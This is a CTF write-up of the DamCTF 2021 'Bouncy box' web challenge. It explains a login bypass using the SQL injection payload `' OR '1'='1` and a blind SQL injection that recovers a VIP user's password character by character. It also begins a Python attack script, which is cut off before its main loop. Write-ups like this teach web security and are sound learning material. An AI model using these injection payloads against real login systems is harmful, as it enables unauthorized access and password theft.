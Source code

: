 ```yaml
---
title : DamCTF 2021
notetype : feed
date : 30-11-2021
---
```


# Bouncy box
The challenge was first completed by one of my teammate which was already scripting it.
I completed it after some minutes. 

The web app provides a bouncy box game. When we loose we can login to register our score.

## First login
We can bypass the login with password `' OR '1'='1` and any username.

## Second login
After logging in to a no sense user, we can see an internal login, which POSTs to `flag/`.
This login requires the username and password of a VIP user, for example `boxy_mcbounce`. 
We can see the VIP users from the provided scoreboard.

This second login is not vulnerable so we need the actual password.
If we are able to login as `boxy_mcbounce` we will retrieve the flag.

## Blind SQLi
The idea is to do a blind SQLi using the first login and incrementally guess the first $n$ chars of the flag.

```
#!/usr/bin/env python3
# aMan

import requests
import string

# attack description:
# since we are always able to login as any user (*) with a true condition
# on the SQL password check, but we want to know the actual psw of
# boxy_mcbounce, which is a VIP user,
# we will exectute the following SQL query to exfiltrate the psw:
# .... AND password=='' OR password[:1]=='x'
# When the second condition is true we successfully login and receive
# code 200 from the POST request
#
# We can iteratively add chars until we get the full password.
#
# Note: since the sql db they are using use case insensitive sring
# comparision, we use md5 hash to make uppercase and lowercase
# distinguible by comparing their hashes.
# Note 2: we add a AND '1'='1 at the end of the query to match the final ' of
# the query
#
# (*) we are able to login as any user for an easy SQL injection
# with "' OR '1'='1" as password
#


def main():
    s = requests.Session()

    # generate the list of chars to try
```